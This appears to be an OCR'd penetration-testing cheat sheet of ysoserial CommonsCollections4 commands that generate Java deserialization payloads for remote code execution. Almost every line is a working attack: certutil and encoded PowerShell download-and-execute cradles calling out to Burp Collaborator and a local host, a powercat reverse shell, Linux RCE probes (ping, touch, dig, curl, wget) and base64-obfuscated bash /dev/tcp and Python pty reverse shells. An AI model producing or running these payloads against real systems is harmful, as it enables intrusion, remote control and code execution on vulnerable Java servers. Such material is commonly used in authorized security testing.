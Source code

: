 ```bash
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c certutil -urlcache -split -f http://j4ops7g6mi9w30verckjrk26txzqnf.burpcollaborator.net/a a"
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAYwBlADcAMABwAG8AbwB1ADAAaABlAGIAaQAzAHcAegB1AHMAMQB6ADIAYQBvADEAZgA3ADkAdgB5AC4AYgB1AHIAcABjAG8AbABsAGEAYgBvAHIAYQB0AG8AcgAuAG4AZQB0AC8AYQAnACkA"
## In the ast http request was encoded: IEX(New-Object Net.WebClient).downloadString('http://1ce70poou0hebi3wzus1z2ao1f79vy.burpcollaborator.net/a')
## To encode something in Base64 for Windows PS from linux you can use: echo -n "<PAYLOAD>" | iconv --to-code UTF-16LE | base64 -w0
# Reverse Shell
## Encoded: IEX(New-Object Net.WebClient).downloadString('http://192.168.1.4:8989/powercat.ps1')
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAxAC4ANAA6ADgAOQA4ADkALwBwAG8AdwBlAHIAYwBhAHQALgBwAHMAMQAnACkA"

#PoC RCE in Linux
# Ping
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "ping -c 5 192.168.1.4" > payload
# Time
## Using time in bash I didn't notice any difference in the timing of the response
# Create file
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "touch /tmp/pwn" > payload
# DNS request
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "dig ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "nslookup ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
# HTTP request (+DNS)
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "curl ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net" > payload
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "wget ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
# Reverse shell
## Encoded: bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}" | base64 -w0
## Encoded: export RHOST="127.0.0.1";export RPORT=12345;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "bash -c {echo,ZXhwb3J0IFJIT1NUPSIxMjcuMC4wLjEiO2V4cG9ydCBSUE9SVD0xMjM0NTtweXRob24gLWMgJ2ltcG9ydCBzeXMsc29ja2V0LG9zLHB0eTtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKG9zLmdldGVudigiUkhPU1QiKSxpbnQob3MuZ2V0ZW52KCJSUE9SVCIpKSkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZmQpIGZvciBmZCBpbiAoMCwxLDIpXTtwdHkuc3Bhd24oIi9iaW4vc2giKSc=}|{base64,-d}|{bash,-i}"

# Base64 encode payload in base64
base64 -w0 payload
```
